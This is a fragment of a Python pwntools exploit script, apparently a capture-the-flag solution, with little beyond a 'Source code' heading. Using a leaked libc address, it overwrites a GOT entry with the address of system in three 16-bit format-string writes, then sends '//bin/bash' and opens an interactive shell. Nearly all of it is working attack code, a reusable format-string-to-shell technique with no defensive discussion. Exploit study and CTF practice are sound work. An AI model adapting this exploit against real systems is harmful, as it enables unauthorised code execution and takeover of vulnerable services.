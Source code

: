 ```py
system = libc_leak + system_offset

# LSB SYSTEM
for i in range(53,0,-1):
    print(i)
    exec_haha(b'A' * i, p)

payload = fmtstr_payload(offset, {0x602018: (system)&0xFFFF}, numbwritten=16, write_size='short')

p.sendline(b'1')
p.send(b'aaaaaa'+payload)
p.sendline(b'1')


# MID SYSTEM
for i in range(53,0,-1):
    print(i)
    exec_haha(b'A' * i, p)

payload = fmtstr_payload(offset, {0x60201A: (system>>16)&0xFFFF}, numbwritten=16, write_size='short')

p.sendline(b'1')
p.send(b'aaaaaa'+payload)
p.sendline(b'1')


# MSB SYSTEM
for i in range(53,0,-1):
    print(i)
    exec_haha(b'A' * i, p)

payload = fmtstr_payload(offset, {0x60201C: (system>>32)&0xFFFF}, numbwritten=16, write_size='short')

#context.terminal = ['tmux','splitw','-h']
#gdb.attach(p, '''
#break *0x400D65
#continue
#''')

p.sendline(b'1')
p.send(b'aaaaaa'+payload)
p.sendline(b'1')


p.sendline(b'1')
p.sendline(b'//bin/bash')
p.sendline(b'2')

p.interactive()
```
